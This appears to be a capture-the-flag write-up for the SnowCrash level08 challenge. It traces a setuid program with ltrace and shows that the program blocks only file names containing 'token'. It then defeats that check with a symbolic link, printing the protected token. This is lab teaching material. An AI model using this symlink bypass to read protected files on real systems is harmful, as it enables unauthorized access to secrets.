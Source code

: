 # Start / Search

```sh
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout*
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc*
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
-r-x------  1 level08 level08  675 Apr  3  2012 .profile*
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```
>> We have prog with an effective user : flag08 ans a token file taht we can't write

```sh
level08@SnowCrash:~$ ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                            = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                        = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
>> if filename pass in argument contain "token" it's exit

```sh
level08@SnowCrash:~$ vim /tmp/superTest
level08@SnowCrash:~$ ltrace ./level08 /tmp/superTest
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/superTest", "token")                                   = NULL
open("/tmp/superTest", 0, 014435162522)                             = 3
read(3, "SuperTest\n", 1024)                                        = 10
write(1, "SuperTest\n", 10SuperTest
)                                         = 10
+++ exited (status 10) +++
```
>> if not token in the filename it read and write the file

>>(see also the main.log file)

## Exploit

So we will write the token file with level08 by changing his name with a sybolic link

```sh
level08@SnowCrash:/tmp$ ln -s ~/token ./test
level08@SnowCrash:~$ ./level08 /tmp/test
quif5eloekouj29ke0vouxean
```